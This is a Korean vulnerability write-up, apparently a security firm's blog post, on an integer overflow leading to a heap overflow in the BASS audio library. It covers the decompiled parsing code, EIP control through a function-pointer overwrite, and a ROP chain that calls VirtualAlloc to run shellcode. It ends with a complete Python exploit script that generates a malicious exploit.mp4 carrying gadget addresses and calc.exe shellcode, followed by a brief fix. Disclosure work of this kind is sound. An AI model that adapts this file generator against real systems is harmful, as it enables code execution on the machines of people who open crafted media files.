 ```yaml
---
layout   : post
markdown  : kramdown
highlighter : rouge
title    : Audio Library vulnerability analysis
date    : 2020-11-26 15:00:00 +0900
category  : R&D
author   : 이해찬
author_email: hlee@stealien.com
background : /assets/2020-11-26-audio_lib_exploit/audio.png
profile_image: /assets/2020-11-26-audio_lib_exploit/audio.png
summary   :  BASS Library Exploit
thumbnail  : /assets/2020-11-26-audio_lib_exploit/audio.png
---
```


# Audio Library vulnerability analysis

3-4년전에 찾아서 제보했던 오디오 라이브러리에 대한 취약점 분석글입니다.

BASS는 MP3,ACC,M4P,FLAC,OGG,WAV 등 여러가지 확장자를 지원하는 오디오 라이브러리입니다. 다수 프로그램이 현재까지도 사용하고 있습니다.



## 취약점 분석

### 개요

Audio File을 파싱하던중  data 태그부분에서 integer overflow가 발생합니다. integer overflow를 통해 보다 작은 값을 힙할당 하게 되어 Heap overflow로 이어집니다.


### 분석

![image-20201117134210220](/assets/2020-11-26-audio_lib_exploit/image-20201117134210220.png) 

*sub_110249B6 (strlen)

*sub_11001009 (heap alloc)

*sub_110031E6 (File Read)

첫번째 박스에서 v4가 파일에서 읽어온 값입니다. (v4-7+3)&0xFC만큼 스택을 할당하고 파일에서 읽어와 해당스택에 저장합니다. 그리고 두번째 박스에서 data 태그를 파싱할때 힙할당시 계산되는 사이즈부분에서 검증미흡으로 integer overflow가 발생하게 됩니다.

v66은 파일에서 가져온 값이며, v8은 첫번째 박스에서 할당한 스택에 있는 내용의 길이입니다. 둘의 값을 잘 조절하면, 0xffffffff의 값을 넘기게 하여 v66보다 작은값을 할당 할 수 있습니다. 

v66-16 사이즈만큼 파일 데이터를 읽오다 sub_110031E6 내부에서 Heap overflow가 발생하게 됩니다.




### Exploit

![image-20201117140035807](/assets/2020-11-26-audio_lib_exploit/image-20201117140035807.png)

sub_110031E6 내부에서 qmemcpy로  파일내용을 복사한 이후에, sub_11003749가 호출됩니다.



![image-20201117140119996](/assets/2020-11-26-audio_lib_exploit/image-20201117140119996.png)

sub_11003749 함수에서 (*(a1+0x30)) 함수포인터가 호출되게 됩니다. 이때 Heap overflow로 인해 *(a1+0x30)의 값을 마음대로 조작 할 수 있게 되어 EIP 컨트롤을 할 수 있게 됩니다.

![image-20201117141031393](/assets/2020-11-26-audio_lib_exploit/image-20201117141031393.png)

WinDbg를 통해 디버깅을 진행해보았습니다. 함수 포인터를 호출할때, 스택상황을 보면, ESP에서 0x48만큼 떨어진거리에 아까 스택할당후 저장한 파일데이터가 존재하는것을 확인 할 수 있습니다.  해당부분에 ROP Chain을 구상하고,  "add esp,0x~~;ret" 와 같은 가젯을 사용하여 ROP Chain을 실행시켰습니다.



![image-20201117141227737](/assets/2020-11-26-audio_lib_exploit/image-20201117141227737.png)



Virtual_alloca API를 통해 rwx 권한을 주고, 그공간에 쉘코드를 복사하고 점프하여 실행시키는 ROP Chain을 작성하였습니다.



![image-20201117141641705](/assets/2020-11-26-audio_lib_exploit/image-20201117141641705.png)

BASS 라이브러리를 사용하고 A사 프로그램에서 테스트 하였습니다. (패치완료됨)

익스플로잇 파일을 읽으면 쉘코드(calc.exe)가 실행되는것을 볼 수 있습니다. 



### Exploit Code

```python
from struct import *

p32 = lambda x : pack("<L",x)

loop_cpy = ""
sub_eax = ""

shellcode = "\x90"*0x30 + "\x31\xdb\x64\x8b\x7b\x30\x8b\x7f\x0c\x8b\x7f\x1c\x8b\x47\x08\x8b\x77\x20\x8b\x3f\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03\x78\x3c\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x89\xdd\x8b\x34\xaf\x01\xc6\x45\x81\x3e\x43\x72\x65\x61\x75\xf2\x81\x7e\x08\x6f\x63\x65\x73\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c\x6f\x8b\x7a\x1c\x01\xc7\x8b\x7c\xaf\xfc\x01\xc7\x89\xd9\xb1\xff\x53\xe2\xfd\x68\x63\x61\x6c\x63\x89\xe2\x52\x52\x53\x53\x53\x53\x53\x53\x52\x53\xff\xd7\xeb\xfe" + "\x90\x90"

#rop_gadget
cpy = 0x6350cbbc # mov dword ptr [eax], ecx ; pop esi ; ret
pop_ecx = 0x635070f2 
inc_eax = 0x63506ad8
jmp_eax = 0x63506dad # push eax ; ret
add_esp_13c = 0x63503f0b# : add esp, 0x13c ; ret   0x13c-0x48
virtual_alloc = 0x6350f0a4
ppppr = 0x63507389 # pop edi ; pop esi ; pop ebx ; pop ebp ; ret
pop_eax = 0x63507228 #: pop eax ; ret
push_ecx_ptr = 0x6070fff1 #: push dword ptr [ecx] ; add byte ptr [eax], al ; ret 0xc
mov_eax_ebx = 0x63507484 #: mov eax, ebx ; pop esi ; pop ebx ; pop ebp ; ret
sub_eax_20 = 0x6350db86 #: sub eax, 0x20 ; pop ebx ; ret

for i in range(0,len(shellcode),4):
	loop_cpy += p32(pop_ecx)
	loop_cpy += shellcode[i:i+4]
	loop_cpy += p32(cpy)
	loop_cpy += "\x90\x90\x90\x90"
	loop_cpy += p32(inc_eax)
	loop_cpy += p32(inc_eax)
	loop_cpy += p32(inc_eax)
	loop_cpy += p32(inc_eax)

rop_chain = p32(mov_eax_ebx)
rop_chain += "\x90"*12            
rop_chain +=  p32(pop_ecx)
rop_chain += p32(virtual_alloc)
rop_chain += p32(push_ecx_ptr)
rop_chain += "\x90"*0xc
rop_chain += p32(ppppr)
rop_chain += p32(0)
rop_chain += p32(0x10000) # size
rop_chain += p32(0x1000)
rop_chain += p32(0x40) # execution
rop_chain += "\x90"*0x10
rop_chain += loop_cpy

for k in range(0,4,1):
	sub_eax += p32(sub_eax_20)
	sub_eax += "\x90\x90\x90\x90"

rop_chain += sub_eax
rop_chain += p32(jmp_eax)

header = "\x00\x00\x00\x08"
header += "\x66\x74\x79\x70" # file signature
header += "\x00\x00\x00\x09"   #  0x10 > 0x11   break pass
header += "\x69\x6C\x73\x74" # ilst
header += "\x00\x00\xAf\xff"  # 1 read size
header += "\x6E\x61\x6D\x65" # name
header += "\x90\x90\x90\x90" # dummy 

rop_space = "\x90"*0xf0 + p32(add_esp_13c) + "\x90"*0x13c 
for k in range(0,0x25,1):
	rop_space += p32(add_esp_13c)*0xf0

rop_space += rop_chain # 23c
rop_space += "\x90"*(0xAff3-len(rop_space))

header += rop_space

data_header = "\xff\xff\x72\xeb"
data_header += "\x64\x61\x74\x61"
data = "\x90\x90\x90" + p32(add_esp_13c)*(0xfd0/4)

f = open("exploit.mp4","w")
payload = header + data_header + data 

f.write(payload)
f.close()

```



### 대응방안

integer overflow가 발생하지 않게 연산할때 오버플로우를 검증 하는코드를 추가 합니다.

